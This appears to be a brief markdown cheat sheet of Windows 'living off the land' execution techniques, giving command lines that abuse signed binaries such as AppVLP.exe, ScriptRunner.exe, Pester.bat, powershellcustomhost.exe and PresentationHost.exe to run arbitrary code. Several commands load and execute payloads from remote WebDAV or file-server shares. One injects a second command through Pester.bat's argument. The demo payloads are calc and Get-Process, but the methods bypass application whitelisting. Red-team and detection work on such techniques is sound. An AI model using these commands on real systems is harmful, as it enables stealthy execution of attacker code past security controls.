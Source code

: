 # Code Execution...
Generally useless ways to exec code.

## appvlp.exe
```
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe \\webdav\calc.bat
```

## scriptrunner.exe
```
C:\Windows\System32\ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
C:\Windows\System32\ScriptRunner.exe -appvscript powershell.exe -args
```

## pester.bat
```
C:\Program Files (x86)\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat help  "; Get-Process"
```

##  powershellcustomhost.exe (Likely installed with IIS)
```
C:\Program Files\IIS\Microsoft Web Deploy V3\Scripts\powershellcustomhost.exe calc.ps1
```

## presentationhost.exe 
```
PresentationHost.exe file://c:\windows\system32\calc.exe
```

